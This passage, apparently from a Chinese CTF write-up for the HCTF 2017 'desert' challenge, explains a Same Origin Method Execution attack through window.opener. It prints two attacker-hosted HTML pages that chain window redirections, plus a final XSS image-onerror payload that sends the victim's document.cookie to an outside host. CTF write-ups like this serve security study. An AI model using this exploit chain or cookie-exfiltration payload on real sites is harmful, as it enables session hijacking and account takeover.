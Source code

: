 如果执行`UpdateProfile`，站内就会把子窗口的内容发送到父窗口中。但是我们还是没办法控制修改的内容。

回顾站内逻辑，当我们点击click me，首先请求`/edit.php?callback=RandomProfile`，然后跳转至任意`http://hctf.com/edit.php?callback=RandomProfile&user=xiaoming`，然后页面关闭并，更新信息到当前用户上，假设这里user是我们设定的还有恶意代码的user，那我们就可以修改admin的信息了，但，怎么能让admin打开这个页面呢？

我们可以尝试一个，如果直接打开`edit.php?callback=RandomProfile&user=xiaoming`
![image.png-7.7kB][2]

报错了，不是通过open打开的页面，寻找不到页面内的`window.opener`对象，也就没办法做任何事。

这里我们只有通过SOME，才能操作同源下的父窗口，首先我们得熟悉同源策略，同源策略规定，只有同源下的页面才能相互读写，如果通过`windows.open`打开的页面是同源的，那么我们就可以通过`window.opener`对象来操作父子窗口。

而SOME就是基于这种特性，可以执行同源下的任意方法。

最终payload：

vps, 1.html
```
<script>
    function start_some() {
        window.open("2.html");
        location.replace("http://desert.2017.hctf.io/user.php");
    }

    setTimeout(start_some(), 1000);
</script>
```

vps, 2.html
```
<script>
    function attack() {
        location.replace("http://desert.2017.hctf.io/edit.php?callback=RandomProfile&user=lorexxar");
    }

    setTimeout(attack, 2000);

</script>
```

在lorexxar账户的message里添加payload
```

<img src="\" onerror=window.location.href='http://0xb.pw?cookie='%2bdocument.cookie>
```

getflag!


  [1]: http://static.zybuluo.com/LoRexxar/tzbaummy81p4ycznfzj0ladl/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ik54i9k8irjz1biosk5xnunu/image.png